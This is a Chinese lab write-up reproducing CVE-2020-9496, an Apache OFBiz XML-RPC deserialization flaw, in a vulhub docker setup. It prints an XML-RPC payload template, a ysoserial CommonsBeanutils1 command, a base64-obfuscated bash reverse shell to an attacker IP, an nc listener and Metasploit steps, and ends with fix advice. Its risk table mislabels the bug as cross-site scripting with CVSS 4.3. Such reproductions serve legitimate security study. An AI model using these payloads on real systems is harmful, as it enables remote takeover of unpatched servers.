# CVE-2020-9496 Apache OFBiz XML-RPC反序列化漏洞

[TOC]

# 1. 概述

## 1.1 OFBiz

**OFBiz** 是开放的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于**Java**的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

## 1.2 漏洞简述

2020年09月29日， 360CERT对Apache OFBiz组件的反序列化漏洞进行了分析，该漏洞编号为 CVE-2020-9496，漏洞等级：高危，漏洞评分：8.0 Apache OFBiz 存在反序列化漏洞，攻击者通过访问未授权接口，构造特定的xmlrpc http请求，可以造成远程代码执行的影响。

## 1.3 风险等级

|  评定方式   | 等级  |
|  ----  | ----  |
| CVSS Score | 4.3 |
| 360CERT  | 8.0 |
| 可利用性  | 中等 |
| 影响面  | 一般 |
| 漏洞类型  | Cross Site Scripting |


## 1.4 影响范围

**Apache Ofbiz：< 17.12.04**

## 1.5 漏洞详情

XML-RPC

XML-RPC是一种远程过程调用(RPC)协议，它使用XML对其调用进行编码，并使用HTTP作为传输机制。它是一种规范和一组实现，允许软件运行在不同的操作系统上，运行在不同的环境中，通过Internet进行过程调用。在XML-RPC中，客户端通过向实现XML-RPC并接收HTTP响应的服务器发送HTTP请求来执行RPC。

# 2. 环境配置

## 2.1 方案一：vlufocus在线平台

### 登录vlufocus官网，搜索漏洞编号并启动



## 2.2 方案二：在docker中搭建

### 在GitHub中搜索并下载vulhub
```git clone https://github.com/vulhub/vulhub.git```
1. 进入漏洞目录
   ```cd vulhub/ofbiz/CVE-2020-9496/```
2. 使用docker-compose拉取漏洞环境
   ```docker-compose up -d```
3. 显示绿色的done表示搭建成功
<font color=#008000 >```Done```</font>

    

## 2.3 访问测试

* Login页面
```http://ip:port/myportal/control/main```

    

* xmlrpc页面
```http://ip:port/webtools/control/xmlrpc```

    

### 注：

访问时可能遇到以下问题


1. 检查端口占用情况，kill占用端口
2. 使用“https”进行访问

# 3. 漏洞复现


## 3.1 准备工作

### 配置Java环境
可以直接使用Kali，这里不赘述Java配置细节

### 配置Maven

1. 使用wget下载mvn:

    `wget https://mirrors.bfsu.edu.cn/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz`

2. 创建目录
   
    `mkdir /opt/maven`

3. 解压

    `tar zxvf apache-maven-3.6.3-bin.tar.gz -C /opt/maven/`

    

4. 配置环境变量
   
    ```export MAVEN_HOME=/opt/maven/apache-maven-3.6.3```

    ```export PATH=$MAVEN_HOME/bin:$PATH```


5. 检查版本
`mvn -version`

    

### 准备Payload

1. 在GitHub找到CVE-2020-9496 Apache OFBiz的payload下载到本地

   
    

    解压后打开txt文件得到如下代码

    ```   
    <?xml version="1.0"?>
    <methodCall>
    <methodName>ProjectDiscovery</methodName>
    <params>
        <param>
        <value>
            <struct>
            <member>
                <name>test</name>
                <value>
                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                [Payload]
                </serializable>
                </value>
            </member>
            </struct>
        </value>
        </param>
    </params>
    </methodCall>
    ```

    <font color=#FF0000 >_这里是准备的第一个payload_</font>


2. 在GitHub找到java反序列化利用工具ysoserial
   
    

    clone到本地
    ```git clone https://github.com/frohoff/ysoserial.git```

    

3. 进入ysoserial目录使用maven下载编译需要得包
   
    `mvn clean package -DskipTests`

    

4. 下载完成后进入ysoserial中的target目录

   使用使用ysoserial的CommonsBeanutils1来生成Payload在tmp目录写入文件

    <font color=#FF0000 >_这里是准备的第二个payload_</font>

   ```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"```

   


## 3.2 漏洞利用

1. 打开目录，抓包
    `http://ip:port/webtools/control/xmlrpc`

    

2. 发送到Repeater模块
   
    


3. 改包：
   1. GET→POST
   2. 复制黏贴Payload-1
   3. 在Payload-1中如图所示位置替换Payload-2

    

    

4. Send后显示200成功,在docker中打开命令行查看是否写入成功 `ls /tmp/`

    

## 

5. 利用Bash命令反弹Shall，需要绕过
   
   `bash -i >& /dev/tcp/attacker_ip/2333 0>&1`

    _这里修改为攻击机的IP和监听端口_
   1. 对bash命令进行base64编码
   
        ```YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyMi4xMjgvNDQ0NCAwPiYx```

        ```bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyMi4xMjgvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}'```

   2. 再对编码后的shell使用ysoserial工具进行一次base64编码

    

6. 开启监听 `nc -lvp 2333`

7. BP改包然后Send，显示200成功

    

8. Getshell
 
    


## 3.3 其他方式的漏洞利用

### Exploit_DB

1. 在Exploit_DB库中搜索相关漏洞

    <https://www.exploit-db.com/exploits/50178>

    

2. 下载利用代码，在虚拟机中配置好python环境并运行

    

## Msf

1. 打开Kali，运行`msfconsole`
2. `search CVE-2020-9496`
3. `use 0`


4. 设置相应模块


5. `run`

# 4. 修复建议

1. 直接在controller.xml配置xmlrpc需要授权访问。
2. 升级到最新版本

# 5. 总结

xmlrpc 本身是支持对序列化数据的反序列化的，而问题就出现在ofbiz没有对xmlrpc接口的访问做权限的控制，同时版本较低的情况下又存在能够被反序列化所利用的依赖。

# 6. References

CVE Details (2020) _CVE-2020-9496_. Available at: https://www.cvedetails.com/cve/CVE-2020-9496/...(Accessed: 22 Aug 2022).


东塔网络安全学院. (2021) 'Apache Ofbiz XMLRPC RCE漏洞（CVE-2020-9496）复现', _CSDN_, 20 Feb. Available at: https://blog.csdn.net/m0_48520508/article/details/...(Accessed: 22 Aug 2022).
